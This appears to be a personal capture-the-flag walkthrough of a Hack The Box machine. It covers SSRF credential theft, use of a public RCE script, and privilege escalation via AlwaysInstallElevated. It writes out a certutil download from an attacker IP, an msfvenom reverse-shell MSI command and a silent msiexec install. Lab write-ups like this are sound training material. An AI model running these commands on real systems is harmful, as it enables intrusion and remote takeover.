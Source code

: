 ![[Pasted image 20250426025006.png]]
Checking the certificate [[ssl]] in [[port 443]] with [[openssl]] we found a domain `staging.love.htb` and on the browser we see this in demo section:

![[Pasted image 20250426140229.png]]

as we know the port 5000 is open too, we can check internally with that remote file scan events a [[Server Side Request Forgery (SSRF)]]

![[Pasted image 20250426140524.png]]

and we got the `admin` credentials, now if we use [[searchsploit]] to find how get a remote command execution, we find 

![[Pasted image 20250426144449.png]]

as we have credentials we can use this [[Python]] script.

![[Pasted image 20250426144531.png]]

Changing the respective data and url's

![[Pasted image 20250426144602.png]]

we got access.

for the privilege escalation we use [[winpeas.exe]]. 

we can user [[certutil.exe]] to get the executable of winpeas to victim machine.

```powershell
certutil.exe -f -urlcache -split http://10.10.16.2/tools/winpeas.exe
```

and we found [[AlwaysInstallElevated]] is set to 1
the we going to exploit this.

we going to use [[msfvenom]] to create a malicious file

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.2 LPORT=9003 --platform windows -a x64 -f msi -o r.msi
```

upload the result to the target machine, and install:

```bash
msiexec /quiet /qn /i r.msi
```

and we get access as Authority user.

![[Pasted image 20250426155518.png]]